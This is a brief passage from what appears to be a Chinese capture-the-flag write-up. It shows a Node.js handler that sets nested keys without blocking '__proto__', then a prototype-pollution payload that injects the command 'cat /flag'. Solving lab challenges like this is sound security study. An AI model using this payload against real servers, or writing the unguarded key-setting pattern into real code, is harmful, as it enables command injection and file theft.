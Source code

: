 ```
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // Set the value at the last key
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
```

嗯哼 ？ 

```
__proto__.cmd cat /flag 
```

然后让他直接去读flag即可

![](./assets/proto.png)



## 惜字如金 3.0
